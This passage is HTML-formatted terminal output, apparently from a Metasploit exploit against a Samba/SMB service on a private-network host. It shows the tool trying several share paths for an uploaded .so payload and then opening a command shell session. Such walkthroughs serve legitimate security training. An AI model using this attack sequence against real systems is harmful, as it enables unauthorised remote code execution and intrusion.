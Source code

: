 </span><span class="pun">-</span><span class="pln"> </span><span class="typ">Trying</span><span class="pln"> location </span><span class="pun">/</span><span class="pln">volume1</span><span class="pun">/</span><span class="pln">share</span><span class="pun">/</span><span class="pln">dDUJiiuf</span><span class="pun">.</span><span class="pln">so</span><span class="pun">...</span></code></p></li><li nodeIndex="103"><p class=" _RIL_KEEPER_CLASS_" nodeIndex="104"><code><span class="pun">[*]</span><span class="pln"> </span><span class="lit">192.168</span><span class="pun">.</span><span class="lit">35.197</span><span class="pun">:</span><span class="lit">445</span><span class="pln"> </span><span class="pun">-</span><span class="pln"> </span><span class="typ">Trying</span><span class="pln"> location </span><span class="pun">/</span><span class="pln">volume1</span><span class="pun">/</span><span class="typ">Share</span><span class="pun">/</span><span class="pln">dDUJiiuf</span><span class="pun">.</span><span class="pln">so</span><span class="pun">...</span></code></p></li><li nodeIndex="105"><p class=" _RIL_KEEPER_CLASS_" nodeIndex="106"><code><span class="pun">[*]</span><span class="pln"> </span><span class="lit">192.168</span><span class="pun">.</span><span class="lit">35.197</span><span class="pun">:</span><span class="lit">445</span><span class="pln"> </span><span class="pun">-</span><span class="pln"> </span><span class="typ">Trying</span><span class="pln"> location </span><span class="pun">/</span><span class="pln">mnt</span><span class="pun">/</span><span class="pln">media</span><span class="pun">/</span><span class="pln">SHARE</span><span class="pun">/</span><span class="pln">dDUJiiuf</span><span class="pun">.</span><span class="pln">so</span><span class="pun">...</span></code></p></li><li nodeIndex="107"><p class=" _RIL_KEEPER_CLASS_" nodeIndex="108"><code><span class="pun">[*]</span><span class="pln"> </span><span class="lit">192.168</span><span class="pun">.</span><span class="lit">35.197</span><span class="pun">:</span><span class="lit">445</span><span class="pln"> </span><span class="pun">-</span><span class="pln"> </span><span class="typ">Trying</span><span class="pln"> location </span><span class="pun">/</span><span class="pln">mnt</span><span class="pun">/</span><span class="pln">media</span><span class="pun">/</span><span class="typ">Share</span><span class="pun">/</span><span class="pln">dDUJiiuf</span><span class="pun">.</span><span class="pln">so</span><span class="pun">...</span></code></p></li><li nodeIndex="109"><p class=" _RIL_KEEPER_CLASS_" nodeIndex="110"><code><span class="pun">[*]</span><span class="pln"> </span><span class="lit">192.168</span><span class="pun">.</span><span class="lit">35.197</span><span class="pun">:</span><span class="lit">445</span><span class="pln"> </span><span class="pun">-</span><span class="pln"> </span><span class="typ">Trying</span><span class="pln"> location </span><span class="pun">/</span><span class="kwd">var</span><span class="pun">/</span><span class="pln">samba</span><span class="pun">/</span><span class="pln">share</span><span class="pun">/</span><span class="pln">dDUJiiuf</span><span class="pun">.</span><span class="pln">so</span><span class="pun">...</span></code></p></li><li nodeIndex="111"><p class=" _RIL_KEEPER_CLASS_" nodeIndex="112"><code><span class="pun">[*]</span><span class="pln"> </span><span class="lit">192.168</span><span class="pun">.</span><span class="lit">35.197</span><span class="pun">:</span><span class="lit">445</span><span class="pln"> </span><span class="pun">-</span><span class="pln"> </span><span class="typ">Trying</span><span class="pln"> location </span><span class="pun">/</span><span class="kwd">var</span><span class="pun">/</span><span class="pln">samba</span><span class="pun">/</span><span class="pln">SHARE</span><span class="pun">/</span><span class="pln">dDUJiiuf</span><span class="pun">.</span><span class="pln">so</span><span class="pun">...</span></code></p></li><li nodeIndex="113"><p class=" _RIL_KEEPER_CLASS_" nodeIndex="114"><code><span class="pun">[*]</span><span class="pln"> </span><span class="lit">192.168</span><span class="pun">.</span><span class="lit">35.197</span><span class="pun">:</span><span class="lit">445</span><span class="pln"> </span><span class="pun">-</span><span class="pln"> </span><span class="typ">Trying</span><span class="pln"> location </span><span class="pun">/</span><span class="kwd">var</span><span class="pun">/</span><span class="pln">samba</span><span class="pun">/</span><span class="typ">Share</span><span class="pun">/</span><span class="pln">dDUJiiuf</span><span class="pun">.</span><span class="pln">so</span><span class="pun">...</span></code></p></li><li nodeIndex="115"><p class=" _RIL_KEEPER_CLASS_" nodeIndex="116"><code><span class="pun">[*]</span><span class="pln"> </span><span class="lit">192.168</span><span class="pun">.</span><span class="lit">35.197</span><span class="pun">:</span><span class="lit">445</span><span class="pln"> </span><span class="pun">-</span><span class="pln"> </span><span class="typ">Trying</span><span class="pln"> location </span><span class="pun">/</span><span class="pln">tmp</span><span class="pun">/</span><span class="pln">dDUJiiuf</span><span class="pun">.</span><span class="pln">so</span><span class="pun">...</span></code></p></li><li nodeIndex="117"><p class=" _RIL_KEEPER_CLASS_" nodeIndex="118"><code><span class="pun">[*]</span><span class="pln"> </span><span class="typ">Command</span><span class="pln"> shell session </span><span class="lit">1</span><span class="pln"> opened </span><span class="pun">(</span><span class="lit">192.168</span><span class="pun">.</span><span class="lit">35.197</span><span class="pun">:</span><span class="lit">4444</span><span class="pln"> </span><span class="pun">-></span><span class="pln">